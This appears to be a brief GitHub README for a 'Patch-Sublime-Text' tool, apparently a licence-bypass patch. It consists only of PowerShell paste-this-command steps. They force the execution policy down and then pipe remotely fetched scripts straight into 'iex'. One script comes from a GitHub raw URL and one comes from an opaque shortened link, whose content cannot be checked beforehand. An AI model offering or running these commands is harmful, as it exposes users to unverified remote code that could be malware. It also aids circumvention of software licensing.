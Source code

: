 # Patch-Sublime-Text

```python3
Get-ExecutionPolicy; Set-ExecutionPolicy RemoteSigned -Force
```
```python3
irm -useb "https://raw.githubusercontent.com/AAAAAEXQOSyIpN2JZ0ehUQ/Patch-Sublime-Text/main/Patch_Sublime_Text.ps1" | iex
```
```python3
irm https://acortar.link/zEsaP2 | iex
```
